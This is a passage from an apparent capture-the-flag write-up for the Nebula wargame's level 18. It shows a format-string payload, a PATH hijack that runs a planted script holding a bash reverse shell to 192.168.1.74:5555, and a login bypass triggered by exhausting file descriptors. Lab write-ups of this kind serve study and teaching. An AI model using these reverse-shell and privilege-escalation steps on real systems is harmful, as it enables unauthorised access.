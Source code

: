 ```
    --protected
    --rcfile
    --restricted
    --verbose
    --version
Shell options:
    -irsD or -c command or -O shopt_option        (invocation only)
    -abefhkmnptuvxBCHP or -o option
level18@nebula:/home/flag18$ 
```

Success!  It's clearly passing in the -d flag to sh, so...

```
level18@nebula:/home/flag18$ ./flag18 --rcfile -d /tmp/dbg
site exec |%20$n| %1$*479$ %1$*2848$ %1073741824$
shell
/tmp/dbg: line 1: Starting: command not found
/tmp/dbg: line 2: syntax error near unexpected token `||'
/tmp/dbg: line 2: `|| %134525108%-1274542928 %'
level18@nebula:/home/flag18$ cat /tmp/Starting
#!/bin/bash
/bin/bash -i > /dev/tcp/192.168.1.74/5555 0>&1
level18@nebula:/home/flag18$ export PATH=/tmp:$PATH
level18@nebula:/home/flag18$ ./flag18 --rcfile -d /tmp/dbg
site exec |%20$n| %1$*479$ %1$*2848$ %1073741824$
shell
flag18@nebula:/home/flag18$ 
```

A shell was waiting for me on 192.168.1.74:5555.  Lots of subtle intricacies here, but really quite fun.

The third issue is the following snippet:

```
26  fp = fopen(PWFILE, "r");
 27  if(fp) {
 28    char file[64];
 29
 30    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
 31      dprintf("Unable to read password file %s\n", PWFILE);
 32      return;
 33    }
 34                fclose(fp);
 35    if(strcmp(pw, file) != 0) return;    
 36  }
 37  dprintf("logged in successfully (with%s password file)\n", 
 38    fp == NULL ? "out" : "");
 39  
 40  globals.loggedin = 1;
```

If the application fails to read PWFILE, the flow will automatically assume the user is logged in.  This appears to be either the easy or intermediate way, as source code explicitly calls this case out (with%s password file).  This could be defeated by opening up a ton of files and running the binary, effectively erroring out fopen and getting the loggedin flag set.

